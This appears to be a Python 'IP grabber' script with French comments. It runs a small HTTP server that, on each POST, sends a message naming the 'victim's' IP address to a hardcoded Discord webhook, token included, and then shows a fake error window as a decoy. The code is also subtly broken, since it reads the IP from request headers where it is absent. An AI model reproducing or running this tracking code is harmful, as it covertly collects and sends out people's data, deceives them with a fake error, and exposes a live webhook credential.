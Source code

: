 import http.server
import socketserver
from urllib.parse import parse_qs
import tkinter as tk
from tkinter import messagebox
import requests

# Fonction pour récupérer l'adresse IP de l'utilisateur
def get_user_ip(environ):
    ip = environ.get('REMOTE_ADDR')
    return ip

# Fonction pour envoyer un message à Discord
def send_discord_message(webhook_url, message):
    data = {
        "content": message
    }
    response = requests.post(webhook_url, data=data)
    if response.status_code == 204:
        print("Message envoyé avec succès à Discord !")
    else:
        print("Une erreur s'est produite lors de l'envoi du message à Discord.")

# Classe pour le gestionnaire de requêtes
class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        self.wfile.write(b'Hello, world!')

    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        user_ip = get_user_ip(self.headers)
        message = f"𝕃'𝕒𝕕𝕣𝕖𝕤𝕤𝕖 𝕀ℙ 𝕕𝕖 𝕝𝕒 𝕧𝕚𝕔𝕥𝕚𝕞𝕖 𝕖𝕤𝕥 : {user_ip}"
        send_discord_message("https://discord.com/api/webhooks/1189581246829957180/aRFpdCSf9AgfhrzGP0F5cjWxu1lG5-hlejBf3se-7BISIbx4VRS6aD-jiiy4BwpHgqZo", message)

        # Affiche une fenêtre avec le message d'erreur et un bouton pour réessayer
        root = tk.Tk()
        root.title("Erreur")
        error_message = tk.Label(root, text="Une erreur s'est produite.")
        error_message.pack(pady=10)
        retry_button = tk.Button(root, text="Cliquez pour réessayer", command=root.destroy)
        retry_button.pack(pady=10)
        root.mainloop()

# Configurer le serveur avec le gestionnaire de requêtes
handler = MyHandler
port = 8000
httpd = socketserver.TCPServer(("", port), handler)

print(f"Serveur actif sur le port {port}")

# Lancer le serveur
httpd.serve_forever()
